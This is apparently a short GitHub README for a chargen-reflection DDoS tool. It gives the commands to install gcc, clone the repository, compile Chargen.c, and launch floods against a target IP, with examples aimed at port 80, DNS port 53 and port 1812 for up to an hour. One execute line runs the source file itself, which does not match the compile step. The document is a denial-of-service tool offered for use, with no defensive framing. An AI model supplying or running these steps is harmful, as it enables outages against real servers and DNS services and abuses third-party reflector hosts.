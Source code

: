 # DDOS-Attack-Chargen-Stable-Version
Chargen.c

-requirements:gcc package 
 apt-get update 
apt-get install gcc

-git clone https://github.com/Dev0uss/DDOS-Attack-Chargen-Stable-Version

-cd DDOS-Attack-Chargen-Stable-Version
 
-Compilation:

gcc -pthread Chargen.c -o chargen

-Execute:

./Chargen.c IP 1812 chargen.txt 2 -1 3600

Other Examples:
# ./chargen TEST-IP 80 chargenliste.txt 2 -1 3600
# ./chargen TEST-IP 80 chargenliste.txt 1 -1 120
# ./chargen DNS-IP 53 chargenliste.txt 1 -1 120
